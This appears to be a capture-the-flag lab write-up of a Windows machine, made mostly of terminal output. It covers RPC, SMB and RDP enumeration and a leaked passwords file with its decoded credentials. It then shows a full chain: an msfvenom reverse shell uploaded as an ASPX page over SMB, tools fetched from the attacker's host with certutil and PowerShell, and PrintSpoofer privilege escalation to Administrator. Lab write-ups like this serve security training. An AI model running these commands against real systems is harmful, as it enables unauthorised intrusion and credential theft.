[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LRPC-dbe5f366faf28320b9)
[*] 10.10.211.209:135 - 697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - 697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 LRPC (LRPC-dbe5f366faf28320b9)
[*] 10.10.211.209:135 - 697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 LRPC (LRPC-c5b5ce69382c71d319)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LRPC-dbe5f366faf28320b9)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (LRPC-c5b5ce69382c71d319)
[*] 10.10.211.209:135 - d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 LRPC (csebpub)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (umpo)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (actkernel)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (LRPC-c944ed3cd4b5ed06db)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (LSMApi)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 PIPE (\pipe\LSM_API_service) \\RELEVANT
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (OLE900C59EF8D364FB4C7548855DBFD)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (LRPC-d1a55fc55f81af51c4)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (LRPC-dbe5f366faf28320b9)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (LRPC-c5b5ce69382c71d319)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (csebpub)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (dabrpc)
[*] 10.10.211.209:135 - 9b008953-f195-4bf9-bde0-4471971e58ed v1.0 LRPC (LRPC-ff632e98f66a6f0d2b)
[*] 10.10.211.209:135 - 76f226c3-ec14-4325-8a99-6a46348418af v1.0 LRPC (WMsgKRpc063E10)
[*] 10.10.211.209:135 - 76f226c3-ec14-4325-8a99-6a46348418af v1.0 PIPE (\PIPE\InitShutdown) \\RELEVANT
[*] 10.10.211.209:135 - 76f226c3-ec14-4325-8a99-6a46348418af v1.0 LRPC (WindowsShutdown)
[*] 10.10.211.209:135 - d95afe70-a6d5-4259-822e-2c84da1ddb0d v1.0 LRPC (WMsgKRpc063E10)
[*] 10.10.211.209:135 - d95afe70-a6d5-4259-822e-2c84da1ddb0d v1.0 PIPE (\PIPE\InitShutdown) \\RELEVANT
[*] 10.10.211.209:135 - d95afe70-a6d5-4259-822e-2c84da1ddb0d v1.0 LRPC (WindowsShutdown)
[*] 10.10.211.209:135 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/dcerpc/tcp_dcerpc_auditor) > run
10.10.211.209 - UUID afa8bd80-7d8a-11c9-bef4-08002b102989 1.0 OPEN VIA 135 ACCESS GRANTED 000002000c0000000c00000004000200080002000c0002001000020014000200180002001c0002002000020024000200280002002c000200300002000883afe11f5dc91191a408002b14a0fa0300000084650a0b0f9ecf11a3cf00805f68cb1b0100010026b5551d37c1c546ab79638f2a68e869010000007f0bfe64f59e5345a7db9a197577755401000000e6730ce6f988cf119af10020af6e72f402000000c4fefc9960521b10bbcb00aa0021347a00000000609ee7b9523dce11aaa100006901293f000002001e242f412ac1ce11abff0020af6e7a17000002003601000000000000c0000000000000460000000072eef3c67eced111b71e00c04fc3111a01000000b84a9f4d1c7dcf11861e0020af6e7c5700000000a001000000000000c0000000000000460000000000000000
[*] 10.10.211.209:135 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
Port 139/445 ┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ enum4linux -a 10.10.211.209
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Aug 31 18:31:34 2024
=========================================( Target Information )=========================================
Target ........... 10.10.211.209
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
===========================( Enumerating Workgroup/Domain on 10.10.211.209 )===========================
[E] Can't find workgroup/domain
===============================( Nbtstat Information for 10.10.211.209 )===============================
Looking up status of 10.10.211.209
No reply from 10.10.211.209
===================================( Session Check on 10.10.211.209 )===================================
[E] Server doesn't allow session using username '', password ''. Aborting remainder of tests.
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ smbclient -L 10.10.53.89
Password for [WORKGROUP\drroot]:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
nt4wrksv Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.53.89 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ smbclient \\\\10.10.53.89\\nt4wrksv
Password for [WORKGROUP\drroot]:
Try "help" to get a list of possible commands.
smb: \>
smb: \> get passwords.txt
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
Qm9iIC0gIVBAJCRXMHJEITEyMw== -> Bob - !P@$$W0rD!123
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk -> Bill - Juw4nnaM4n420696969!$$$Port 3389 → RDP nmap --script "rdp-enum-encryption" -p 3389 -T4 10.10.211.209
nmap --script "rdp-vuln-ms12-020" -p 3389 -T4 10.10.211.209
nmap --script "rdp-ntlm-info" -p 3389 -T4 10.10.211.209
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ nmap --script "rdp-enum-encryption" -p 3389 -T4 10.10.211.209
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-31 19:00 -05
Nmap scan report for 10.10.211.209
Host is up (0.35s latency).
PORT STATE SERVICE
3389/tcp open ms-wbt-server
| rdp-enum-encryption:
| Security layer
| CredSSP (NLA): SUCCESS
| CredSSP with Early User Auth: SUCCESS
|_ RDSTLS: SUCCESS
Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ nmap --script "rdp-vuln-ms12-020" -p 3389 -T4 10.10.211.209
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-31 19:02 -05
Nmap scan report for 10.10.211.209
Host is up (0.37s latency).
PORT STATE SERVICE
3389/tcp open ms-wbt-server
Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ nmap --script "rdp-ntlm-info" -p 3389 -T4 10.10.211.209
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-31 19:03 -05
Nmap scan report for 10.10.211.209
Host is up (0.32s latency).
PORT STATE SERVICE
3389/tcp open ms-wbt-server
| rdp-ntlm-info:
| Target_Name: RELEVANT
| NetBIOS_Domain_Name: RELEVANT
| NetBIOS_Computer_Name: RELEVANT
| DNS_Domain_Name: Relevant
| DNS_Computer_Name: Relevant
| Product_Version: 10.0.14393
|_ System_Time: 2024-09-01T00:03:33+00:00
Nmap done: 1 IP address (1 host up) scanned in 4.71 seconds
Resume After figured out the ports i saw on nmap I tried to get more information scanning the ports. On MSRPC(135) I was not able ton get important information but on RDP(3389) and SMB(139 and 445) port I did.
We got all ntlm info of this machine.
See if we can create reverse shell or get any shell
User Findings Just for curiosity try to access to the port 49663 and 80 with /nt4wrksv and only in 49663 can "access" and after that tried with "/nt4wrksv/passwords.txt"
So I figure it out that server have the files of smb server. Let’s trying uploading a reverse shell
Create reverse shell with msfvenom ┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.34.218 LPORt=1205 -f aspx > rv.aspx
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3413 bytes
Putting into smb ┌──(drroot㉿drroot)-[~/Escritorio/eCPPT]
└─$ smbclient \\\\10.10.53.89\\nt4wrksv
Password for [WORKGROUP\drroot]:
smb: \> put rv.aspx
putting file rv.aspx as \rv.aspx (2,0 kb/s) (average 2,0 kb/s)
┌──(drroot㉿drroot)-[~/Escritorio/eCPPT/rustscan-2.3.0-x86_64-linux]
└─$ nc -lnvp 1206
c:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
c:\Users\Bob\Desktop\Microsoft\Windows>certutil.exe -urlcache -split -f "http://10.2.34.218:8000/winPEAS-obufscated.exe"
c:\Users\Bob\Desktop\Microsoft\Windows>whoami /priv
[?] Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#token-manipulation
SeAssignPrimaryTokenPrivilege: DISABLED
SeIncreaseQuotaPrivilege: DISABLED
SeAuditPrivilege: DISABLED
SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeIncreaseWorkingSetPrivilege: DISABLED
Download it
c:\Users\Bob\Desktop\Microsoft\Windows>powershell -c wget http://10.2.34.218:8000/PrintSpoofer.exe -Outfile print.exe
powershell -c wget http://10.2.34.218:8000/PrintSpoofer.exe -Outfile print.exe
c:\Users\Bob\Desktop\Microsoft\Windows>print.exe -i -c cmd.exe
print.exe -i -c cmd.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>cd c:/Users/Administrator
cd c:/Users/Administrator
c:\Users\Administrator>dir
dir
Volume in drive C has no label.
Volume Serial Number is AC3C-5CB5
Directory of c:\Users\Administrator
07/25/2020 10:30 AM <DIR> .
07/25/2020 10:30 AM <DIR> ..
07/25/2020 07:58 AM <DIR> Contacts
07/25/2020 08:24 AM <DIR> Desktop
07/25/2020 07:58 AM <DIR> Documents
07/25/2020 08:39 AM <DIR> Downloads
07/25/2020 07:58 AM <DIR> Favorites
07/25/2020 07:58 AM <DIR> Links
07/25/2020 07:58 AM <DIR> Music
07/25/2020 07:58 AM <DIR> Pictures
07/25/2020 07:58 AM <DIR> Saved Games
07/25/2020 07:58 AM <DIR> Searches
07/25/2020 07:58 AM <DIR> Videos
0 File(s) 0 bytes
13 Dir(s) 20,219,932,672 bytes free
c:\Users\Administrator>cd Desktop
cd Desktop
c:\Users\Administrator\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is AC3C-5CB5
Directory of c:\Users\Administrator\Desktop
07/25/2020 08:24 AM <DIR> .
07/25/2020 08:24 AM <DIR> ..
07/25/2020 08:25 AM 35 root.txt
1 File(s) 35 bytes
2 Dir(s) 20,219,932,672 bytes free
c:\Users\Administrator\Desktop>type root.txt
type root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
{kind=link}